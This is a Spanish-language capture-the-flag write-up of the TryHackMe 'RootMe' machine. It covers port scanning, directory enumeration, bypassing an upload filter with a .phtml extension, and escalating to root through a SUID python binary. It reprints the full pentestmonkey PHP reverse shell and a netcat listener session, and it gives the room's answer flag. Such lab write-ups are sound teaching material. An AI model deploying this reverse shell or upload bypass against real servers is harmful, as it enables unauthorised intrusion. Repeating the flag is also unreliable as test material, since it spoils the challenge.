 Empezamos con la fase de reconocimiento:

``` bash
❯ sudo nmap -p- -Pn --min-rate 5000 10.10.31.200
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 16:57 CEST
Nmap scan report for 10.10.31.200
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

con esto ya podemos responder la primera pregunta de tryhackme:

**Scan the machine, how many ports are open?**
Respuesta: **2**

ecaneamos los servicios de los puertos en mas profundidad con nmap:

``` bash
❯ nmap -p22,80 -sCV 10.10.181.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 18:24 CEST
Nmap scan report for 10.10.181.31
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

y con este escaner contestamos mas preguntas de tryhackme:

**What version of Apache is running?** 
Respuesta: **2.4.29**
**What service is running on port 22?** 
Respuesta: **ssh**

hacemos una enumeracion de directorios con gobuster en el servicio http:

```bash
❯ gobuster dir -u http://10.10.181.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.181.31
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 314] [--> http://10.10.181.31/uploads/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.181.31/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.181.31/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.181.31/panel/]
Progress: 30428 / 220561 (13.80%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 30478 / 220561 (13.82%)
===============================================================
Finished
===============================================================
```

obtenemos los directorios de :
/upload
/panel

este ultimo es la respuesta a la siguiente pregunta:

**What is the hidden directory?**
Respuesta: **/panel/**

en este directorio encontramos una funcionalidad para subir archivos por lo que vamos a intentar si subiendo una reverse shell en php nos lo interpreta:

![uploadRootMe.png](/img/uploadRootMe.png)

una herramienta para obtener una reverse shell es [revshells](https://www.revshells.com/):

utilizamos la opcion de la reverse shell de pentestMonkey:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = 'IP TARGET';
$port = NUM_PUERTO;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

cambiamos la ip target y num puerto para decuarlo a nuestro caso, con nano creamos el archivo php y lo subimos a la web:


![uploadFailrootme](uploadFailrootme.png)

no lo tendremos tan facil, intentaremos cambiar la extension php a ver si alguna cuela:
en el directorio uploads vemos nuestras subidas:

![Shellrootme.png](/img/Shellrootme.png)

tras unos intentos en mi caso me funciono la subida con la extension .phtml
nos ponemos a la escucha en net cat y clickamos la shell subida.

Con esto obtenemos acceso:
```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.251.231] from (UNKNOWN) [10.10.181.31] 45778
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:52:21 up 30 min,  0 users,  load average: 0.00, 0.00, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ 
$ whoami
www-data
$ hostname
rootme
$ 
```

hacemos una busqueda a los permisos SUID y encontramos que tenemos SUID para el binario python:
vamos a la web de gtfobins para ver como elevar los privilegios y aplicamos el metodo:

![privrootme.png](/img/privrootme.png)

con esto obtenemos root.

por ultimo buscamos el archivo user.txt en el sistema y lo visualizamos para contestar a la ultima pregunta de tryhackme:
![flagrootme.png](/img/flagrootme.png)

**user.txt**
Respuesta: **THM{y0u_g0t_a_sh3ll}**

